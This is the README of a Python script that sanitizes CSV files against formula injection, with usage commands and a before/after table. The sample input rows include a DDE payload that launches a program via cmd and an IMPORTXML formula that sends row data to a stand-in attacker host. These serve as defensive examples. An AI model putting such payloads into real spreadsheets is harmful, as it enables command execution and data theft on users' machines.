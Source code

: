 # Sanitize CSV Script README
## Operating environment python3
### Usage method
```
git clone https://github.com/zhizhi10/sanitize_csv.git
cd sanitize_csv
chmod +x sanitize_csv.py
### ./sanitize_csv.py -h
./sanitize_csv.py your_csv_file.csv -o /vol/xxx/clean_your_csv_file.csv
```
The generated filename is clean_your_csv_file.csv

### Comparison Before and After Cleaning

| Data Before Cleaning                                                                                                         | Data After Cleaning                                                                                                                   |
|------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------|
| UserId,BillToDate,ProjectName,Description,DurationMinutes                                                                    | "UserId","BillToDate","ProjectName","Description","DurationMinutes"                                                                   |
| "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                    | "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                             |
| 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240                                                                    | "2","2017-07-25","Important Client","Bop, dop, and giglip"," 240"                                                                     |
| 2,2017-07-25,Important Client,"=2+5", 240                                                                                    | "2","2017-07-25","Important Client","'=2+5"," 240"                                                                                    |
| 2,2017-07-25,Important Client,"=2+5+cmd\| ' /C calc'!A0", 240                                                                | "2","2017-07-25","Important Client","'=2+5+\|' /C calc'!A0"," 240"                                                                    |
| 2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")",240 | "2","2017-07-25","Important Client","'=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")","240" |
| =1+2";=1+2                                                                                                                   | "'=1+2"";=1+2"                                                                                                                        |

### warning

Due to the program’s inability to determine whether commas outside of quotation marks are separators, the cleaning result of `=1+2'" ;,=1+2` is `'=1+2'"" ;","'=1+2"`, not `'=1+2'"" ;,=1+2”`.
